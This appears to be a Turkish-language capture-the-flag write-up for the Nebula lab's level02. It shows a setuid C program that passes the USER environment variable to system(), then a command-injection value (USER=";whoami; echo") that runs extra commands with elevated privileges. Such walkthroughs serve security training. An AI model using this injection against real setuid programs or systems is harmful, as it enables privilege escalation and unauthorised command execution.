

```bash
ssh level02@192.168.154.137 # [nebulaIP]
```
Bu seviyede elimizde yine bir kod var ve zafiyeti bulmamızı istiyor.
```c
int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```
Burada ilgimizi çeken yine setresuid ve USER çevre değişkeninin buffera alınıp system de çağırılması. Çevre değişkenini yukarıdaki formatla uyumlu olacak şekilde manupüle edebiliriz ve yetkili kullanıcı olarak istediğimiz komutu çalıştırabiliriz.

```bash
export USER=";whoami; echo"
```


